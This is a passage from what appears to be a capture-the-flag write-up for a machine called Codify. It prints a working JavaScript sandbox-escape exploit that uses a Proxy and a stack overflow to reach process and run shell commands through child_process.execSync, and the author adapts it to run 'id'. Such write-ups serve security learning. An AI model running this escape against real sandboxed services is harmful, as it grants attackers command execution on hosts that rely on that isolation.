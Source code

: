 The code part looks like:

    
    
    err = {};
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };
      
    const proxiedErr = new Proxy(err, handler);
    try {
        throw proxiedErr;
    } catch ({constructor: c}) {
        c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
    }
    

The only trick here is seeing that it is using the `child_process` module’s
`execSync` function to run `touch pwned`, which will create a `pwned` file in
the current directory. That doesn’t help much at this point, as I don’t have
access to the filesystem to see the result. I’ll want to change it to
something I can see, like `id`, and then paste it in, and the result is the
output of that command on Codify:

![image-20240403195800662](../img/image-20240403195800662.png)
